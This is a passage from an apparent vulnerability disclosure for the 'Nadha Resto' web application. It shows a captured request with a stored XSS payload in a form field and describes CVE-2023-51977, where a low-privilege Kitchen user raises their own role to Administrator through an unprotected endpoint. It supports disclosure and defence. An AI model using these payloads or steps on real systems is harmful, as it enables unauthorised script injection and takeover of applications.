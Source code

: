 ```bash
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=0ih5tir43a2qbjq8crthe8va81; adminer_version=4.8.1
Connection: close

------WebKitFormBoundaryiunF6DNyNTxtO15Q
Content-Disposition: form-data; name="txtNama"

stored"/><img src=x onerror=confirm(1337) />
------WebKitFormBoundaryiunF6DNyNTxtO15Q
Content-Disposition: form-data; name="txtKategori"
.........................
```

![Nadha Resto XSS](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgxwIMfnKGOMvCvkZNykG3DX2wAdMJd6YlngT51ALGP0mkc52pwXtkjrQNzjDjzEKCanXVJCfmDuJD1shzMwKLJQrc6-aZdqtDiykS4pqn8i6s5nixsE4jnzxCz42pQfo7IojId7KUr71u47SxhT-8khpotpgnVq3lgRTon-y6K2pvu69u-Al-6TRPa7uTj/s960)

![Nadha Resto XSS](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEg8LSafa-HFSd8ffbvhnv_wsNzxnD6zsldYpGc4H8LMR5hhkL9xq6hQlfHwy3KyCpk2bWB95mouy2XfyEMZwHHvh5nDsTRFgRjZqfP7nB51sw94pTm3DxmDAhJJAmd8_qGtM-RPfBOmHaqYBZQ33wWKEMVsTmiUTwdW9uis1XsIPzGKnkYhnxz3TUpvbML0/s900)

## Broken Access Control Lead to Privilege Escalation

Vulnerability Summary:

| Parameter   | Value |
| ------------| ------------|
| CVE-ID | CVE-2023-51977 |
| Classification | Broken Access Control |
| Description | Broken access control exists in all endpoints. One of the highest impact issues allows a low-level user to create or edit user roles, potentially leading to a complete takeover of the application. |
| Required privilege | Low |
| Affected Version | 3.2.0 (#0~fed9afe) |
| Publicly disclosed | 21.12.2023 |

The application lacks access control management, enabling all authenticated users, including low-level users, to access the administrator menu. Although the menu is not visible in the user sidebar menu, it can be directly accessed by hitting the endpoint.

In this example, we will demonstrate how a Kitchen user can change their own role to Administrator.

1. Logged in as Kitchen
![Logged in as Kitchen](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEj8zTmP2jwVCNrEkQD7dVV1kq3T3x9L-ZBgQ8jpcnyjsgZO63BTJq8M3fWe5D8-QtFd1tso_38C-QZ7SPgo0xg1fKKuAZQGY1wDk3LuyZNSX6e51nogFEmDDIyNVfKVupCt4faiAe4zNxypTmbFsOiiECTrzxG1bEp2Ly-CzqyrySV-duUQ1jz8YOzpVTbk/s1218/)

2. Edit role via `/manajemenUser/updateUserProses`
![Edit Role](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjY2Y7R6ISBLkL_H30kc2-vzE-luAE12J6thbyFCzoYqr56hbo4to1GYgW8YOohQ0dJBJYOiaT-ZLfgHgZKZTuGfruLSxHcHZvzpqB4mzCELPuFgpHBM6vKy6GXP7UuF1gMQ0kxsX3hHgBCcM_nSIUuowiwvTmc9oJSUuMY6U4WoAvZd8lwfFJ3TIR5lmUJ/s1200)

3. Role Changed
![Edit Role](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgYjSlpY2hndNC0XT2pRUFQ7hUi1NdEZEpdi5pP33dRWbfwb4vs9AAdFz3sGPo3MGffqKgIsBHx9oMdxfB_hYmROtAkomUY7zKdAmOk_2pWV-9yPOR95xnLdiR9yGJBjNDe8NLZQucII27ucPXKoVhxSsDJSgUMQhVDohp-ZCeBV1MpluagPdNHUL6zMaKZ/s1200)

Example of Change Role request:

```bash
POST /research/Nadha-Resto/manajemenUser/updateUserProses HTTP/1.1
Host: localhost
Content-Length: 51
sec-ch-ua: "Chromium";v="119", "Not?A_Brand";v="24"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.199 Safari/537.36
sec-ch-ua-platform: "Linux"
Origin: http://localhost
```